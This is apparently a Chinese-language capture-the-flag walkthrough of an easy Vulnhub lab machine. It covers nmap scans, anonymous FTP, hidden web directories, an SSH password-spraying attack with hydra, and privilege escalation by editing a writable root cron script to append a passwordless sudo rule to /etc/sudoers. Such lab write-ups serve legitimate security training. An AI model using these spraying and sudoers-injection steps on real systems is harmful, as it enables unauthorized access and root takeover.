

# 靶机描述

这是一台标榜难度为简单的 Vulnhub 靶机。我们需要拿到靶机的root权限，并且查看 root 目录下的 Proof.txt 文件。



# 信息收集

1. 主机发现
	目标的 ip 地址是 192.168.2.43。

2. 端口扫描

```text
# Nmap 7.98 scan initiated Sat Jul 25 04:34:27 2026 as: /usr/lib/nmap/nmap --min-rate=10000 -sT -p- -oA nmapscan/TCPS 192.168.2.43
Nmap scan report for 192.168.2.43
Host is up (0.00086s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:90:D9:B4 (VMware)

# Nmap done at Sat Jul 25 04:34:30 2026 -- 1 IP address (1 host up) scanned in 2.62 seconds

# Nmap 7.98 scan initiated Sat Jul 25 04:33:08 2026 as: /usr/lib/nmap/nmap --min-rate=10000 -sU -p- -oA nmapscan/UDPS 192.168.2.43
Warning: 192.168.2.43 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.2.43
Host is up (0.00094s latency).
All 65535 scanned ports on 192.168.2.43 are in ignored states.
Not shown: 65457 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)
MAC Address: 00:0C:29:90:D9:B4 (VMware)

# Nmap done at Sat Jul 25 04:34:22 2026 -- 1 IP address (1 host up) scanned in 73.46 seconds

```
 
 TCP 扫描检测到目标靶机开放了 21, 22 , 80 端口。UDP 扫描结果显示目标靶机没有开放任何UDP的服务。

3. 详细扫描
```text
# Nmap 7.98 scan initiated Sat Jul 25 04:40:53 2026 as: /usr/lib/nmap/nmap -sT -sV -O -sC -p21,22,80 -oA nmapscan/details 192.168.2.43
Nmap scan report for 192.168.2.43
Host is up (0.00089s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.2.24
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|   256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
|_  256 b2:8b:e2:46:5c:ef:fd:dc:72:f7:10:7e:04:5f:25:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 00:0C:29:90:D9:B4 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 25 04:41:03 2026 -- 1 IP address (1 host up) scanned in 10.36 seconds

```

对 21，22，80端口进行详细扫描后，发现21端口运行的FTP服务器可以使用匿名用户登录。

4. 漏洞脚本扫描
```text
# Nmap 7.98 scan initiated Sat Jul 25 04:41:54 2026 as: /usr/lib/nmap/nmap --script=vuln -p21,22,80 -oA nmapscan/vulns 192.168.2.43
Nmap scan report for 192.168.2.43
Host is up (0.00061s latency).

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /robots.txt: Robots file
|_  /secret/: Potentially interesting folder
MAC Address: 00:0C:29:90:D9:B4 (VMware)

# Nmap done at Sat Jul 25 04:47:17 2026 -- 1 IP address (1 host up) scanned in 322.98 seconds

```
漏洞脚本扫描没有给出有价值的信息。


# FTP渗透

- 通过匿名登录 FTP 服务器，发现目标上有一个名为 lol.pcap 的文件。根据后缀名来判断，这是一个流量包文件。考虑到流量包文件也是有字符构成。因此我们可以使用 linux 自带的 strings 工具来查看字符信息。


```text
Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P
(好，好，好，你不仅仅是个小机灵鬼，你已经发现了 sup3rs3cr3tdirlol 这个文件目录。)
Sucks, you were so close... gotta TRY HARDER!
(可恶，你已经很接近了。。。努力再往前走一步！)
```

这里暴露出了信息 “sup3rs3cr3tdirlol”。 _(这是 leetspeak 的写法，原英文名是 supersecretdir然后配了一个大笑的表情。)_


# WEB 界面渗透

登录网站发现只有一张图片。


这是标准的 Troll face。配上略有挑衅的话语。“你好，黑客，有问题吗？”

整个页面没有太多有价值的信息。通过目录爆破，我获得了一个名为 "secret"的网站目录。  _(其实robots.txt 文件中也指向了这个网站目录。)_

进入网站目录，发现另一张 "Troll face"。


图片配文“你生气吗？” 到这里开始，笔者卡顿了一会。突然想到前面有个 leetspeak 编写的字符串。这个字符串是不是就是网站的隐藏目录呢？尝试一下，确实可行。


网站目录中暴露了一个名叫 "roflmao" 的文件。
先用 file 工具命令确认一下文件类型。发现是一个 ELF 可执行文件。在使用 strings 工具查看一下当前文件中有那些可疑字符串。
这里有一串字符。

```text
Find address 0x0856BF to proceed(找到地址 0x0856BF 继续)
```

这串字符串，我的理解是文件存在二进制漏洞或者二进制信息。就是 0x0856BF 就是内存空间地址。这里我使用工具 ghidra 打开文件。


结果发现 0x0856BF 并不是文件的偏移地址。这里可执行文件的反汇编结果展示，这个文件仅仅只有打印这串字符串的功能。会不会这串字符串也是某个特殊的网站路径？


经过翻查 good_luck 文件夹下存放的是这个 which_one_lol.txt 文件。

``` which_one_lol.txt
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

this_folder_contains_the_password 文件夹下存放这Pass.txt 文件。

```Pass.txt
Good_job_:)
```

回顾一下，目前已经掌握了的信息，通过80端口获得用户名列表和密码。21端口给了隐藏路径信息。那么只有22 端口还没有进行尝试，这些用户名和密码可以用来做密码喷洒攻击。

# ssh 密码喷洒攻击。

在尝试的过程中，笔者发现目标对 ssh 登录次数有一定的限制。如果登录尝试过于频繁，就会把 22 端口关闭。过一会后，开放。


hydra 报错没法连接目标 22 端口。换个工具 netexec ,也是跑到一半，发现端口关闭了。


没办法，还好账户不是很多，我只能手工测试，但是发现没有一个用户和密码能够匹配的上。我仔细翻看一下目录，this_folder_contains_the_password 表示文件夹下就有密码。难道这个Pass.txt文件名也是可喷洒密码字符串？重新修改Pass.txt。使用hydra尝试了一下。


获得登陆凭据。

笔者在网上搜索了 “roflmao” 这个词的含义。其实是 Rolling On The Floor Laughing My Ass Off 这句话的简写。联想到之前那两个 Tr0ll face 的表情，感觉作者挺抽象的。


# 权限提升

登录用户 overflow


发现用户登录会话是有时间限制的。


信息显示这是从 root 用户发来的。"时间到了 LOL!" 那么说明目标有一个程序以root权限运行，每次都会检查当前登录用户的会话时间。超时了就断开连接。和时间有关，又是自动执行。我能想到的是计划任务。
虽然 /etc/crontab 我们没有权限访问。但是/var/log/cronlog 文件我们可以看到执行的定时任务。

```shell
find / -name cron* 2>/dev/null
cat /var/log/cronlog
find / -name cleaner.py 2>/dev/null
ls -liah /lib/log/cleaner.py
```


这个 /lib/log/cleaner.py 脚本我们拥有编辑权限。使用 vim 在 os.system() 这个函数里面写入命令。

```shell
echo "overflow ALL=(ALL)NOPASSWD: ALL" >> /etc/sudoers
```


最后执行命令，活动/root文件夹下面的 proof.txt 文件。


# 总结

这台靶机开放了 21，22，80端口。首先通过 21端口匿名用户登录，获得泄露的lol.pcap 文件。通过 strings 工具查找 pcap 文件字符串 找到网络的隐藏目录"sup3rs3cr3tdirlol"。 找到了突破口文件 roflmao。也是通过strings 工具查看文件，发现信息 “Find address 0x0856BF to proceed”。 我们发现了0x0856BF 这样的一个文件夹。文件夹目录下面存放了用户名列表，和密码。我们想到了密码喷洒攻击。但是又遇到 ssh 保护机制。我们改自动为手工。在几番试错过后，我们获得了账号 overflow,密码是 Pass.txt。
获得立足点后，发现会话是有时间限制。而限制时间的发起者正是 root 用户。我们想要借助定时任务提权。通过 find 命令我们终于找到了 cleaner.py。发现我们可以编辑，于是写入payload。成功提权。